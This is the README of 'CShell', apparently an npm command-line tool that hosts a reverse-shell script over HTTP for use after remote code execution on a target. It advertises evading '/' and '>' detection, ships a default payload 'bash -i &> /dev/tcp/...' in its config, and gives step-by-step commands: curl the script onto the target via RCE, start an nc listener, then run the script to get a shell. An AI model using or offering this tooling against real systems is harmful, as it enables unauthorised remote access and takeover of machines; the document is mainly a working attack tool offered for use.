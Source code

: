 # CShell

This program could attach the file to the root path of the HTTP server.

## Superiority

- Bypass `/` and `>` detection and bounce the shell
- Use-friendly and highly customized cli tool

## Usage

### Quick Start

Run

```bash
npm i -g cshell
```

Use

```bash
cshell
```

For more help, please try `cshell --help`.

### From Source Code

Enter the source code directory. Install the dependencies.

```bash
npm ci
```

Install the cli tool globally.

```bash
npm link
```

Then you can directly use it on console every where. Try:

```bash
cshell
```

For more help, please try `cshell --help`.

### Configuration

It is recommended to initialize the config by running following command.

```bash
cshell-conf <path>
```

`<path>` refers to the config. Each KV is optional, and it will fallback to the default value.

Default config file is as followings.

```json
{
    // http server to visit
    "server-host": "127.0.0.1",
    "server-port": 54180,
    // master controller
    "shell-host": "127.0.0.1",
    "shell-port": 54188,
    // static directory
    "static": "",
    // file path whose content is attached
    "file": "",
    // content type of the file
    "content-type": "text/plain",
    // which content if file is not specified
    "default-file-content": "bash -i &> /dev/tcp/${{ env.shell_host }}/${{ env.shell_port }} 0>&1"
}
```

Note that `${{ something }}` in the file content will be replaced to corresponding values. Specially, `env` has following sub-values:

- `server_host`
- `server_port`
- `shell_port`
- `shell_port`

## Example

Run

```bash
cshell --host 12.34.56.78 --port 2020
```

Show

```plain
Server is running at port 2020...

- Try curl -o shell.sh 12.34.56.78:2020 on the target machine.
- Try nc -lvp 2020 on the master controller (12.34.56.78).

DO NOT forget to quit this process!!!
```

On the target machine to attack, run `curl -o shell.sh 12.34.56.78:2020` via RCE. On console displays `GET / FROM xx.xx.xx.xx`.

Then we press `Ctrl`+`C` to quit the program and run `nc -lvp 2020` on the master controller.

Attack the target machine by running `bash shell.sh` via RCE and we get the shell on the master controller.

## License

[MIT](https://mit-license.org)

